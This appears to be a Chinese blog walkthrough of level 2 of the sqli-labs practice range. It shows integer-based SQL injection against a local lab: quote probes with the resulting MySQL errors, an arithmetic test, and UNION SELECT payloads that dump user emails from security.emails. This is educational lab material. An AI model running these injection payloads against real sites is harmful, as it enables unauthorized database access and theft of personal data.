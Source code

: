 +++
date = "2019-08-21T17:29:11+08:00"
categories = ["靶场"]
tags = ["SQL_Lib","SQL注入"]


title = "Sql-Lib第二关"
description = "数字型的注入题"
images = []

+++

- 漏洞类型：GET - Error based - intiger based
- 目标网址（本地靶场）：http://www.sqllib.com/less-2/?id=
- 目标：获取网站用户的邮箱

---



# ① 判断接受的参数类型

## 单引号测试

```
id=1'
```

### 报错

> check the manual that corresponds to your MySQL server version for the right syntax to use near '' LIMIT 0,1' at line 1

## 闭合前后单引号，布尔表达式测试

```
id=1' and '1
```

### 报错

> check the manual that corresponds to your MySQL server version for the right syntax to use near '' and '1 LIMIT 0,1' at line 1

## 运算操作符测试

```
id=2-1
```
**成功显示 "id=1" 时的信息！**

一开始，我们假设是字符型，通过 (id=1' and '1) 尝试闭合单引号，使得SQL语句能够正常带入数据库查询，但是失败了。

通过（id=2-1）正常显示 "id=1" 时的用户信息，说明当前传入的参数类型是数字型，支持运算操作符号。

# ② 通过 Union selecet 查询数据

```
① id=-1 union select null,id,email_id from security.emails limit m,1
② id=1 and 1=2 union select null,id,email_id from security.emails limit m,1
```

- m 范围 1~99 的数字

- "id=-数字" 和 "id=1 and 1=2" 效果是一样的，**都是为了使得正常的查询结果不存在**，而让数据库继续把 Union 后的查询语句，带入数据库查询，并回显信息。

接下来通过改变 m 的数值，能够查询出所有的用户邮箱信息。